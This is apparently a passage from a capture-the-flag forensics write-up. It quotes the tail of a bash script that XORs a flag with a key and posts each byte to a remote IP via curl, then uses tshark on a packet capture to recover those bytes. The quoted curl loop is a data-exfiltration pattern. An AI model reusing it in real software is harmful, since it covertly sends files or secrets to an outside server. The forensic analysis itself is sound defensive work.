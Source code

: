```bash
            val3=$(( val1 ^ val2 ))

            DataOut+=$(printf '%02x' "$val3")
        done

        echo $DataOut

        for ((i=0;i<${#DataOut};i+=2)); do
        BYTE=${DataOut:$i:2}
        echo $BYTE 
        echo curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
        done
    }

    echo XOREncrypt $KEY $FLAG
    XOREncrypt $KEY $FLAG

    exit 0
```
We can see that it is reading the flag from `flag.txt`, XOR-ing it with a key `s3k@1_v3ry_w0w` and sends the results one byte at a time to a remote server through a POST call with a JSON payload.

Now, turning our attention to the PCAP file, we can see from the protocol hierarchy stats, that it has 102 frames of JSON data. 

```
% tshark -r capture.pcapng -z io,phs
===================================================================
Protocol Hierarchy Statistics
Filter: 

eth                                      frames:827 bytes:105559
  ip                                     frames:823 bytes:105391
    udp                                  frames:20 bytes:2857
      dns                                frames:16 bytes:1989
      ssdp                               frames:4 bytes:868
    tcp                                  frames:803 bytes:102534
      tls                                frames:241 bytes:49721
        tcp.segments                     frames:4 bytes:2585
          tls                            frames:1 bytes:1268
      http                               frames:102 bytes:22797
        json                             frames:102 bytes:22797
  arp                                    frames:4 bytes:168
===================================================================
```
After examining the JSON data, we can see that it is one byte and can be extracted by the following command.

```
% tshark -r capture.pcapng -Tfields -ejson.value.string -Y "json"  | xargs
20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f
```
Since this byte value was the result of the flag character XOR'ed with the key, we reverse the process to get the flag back. 
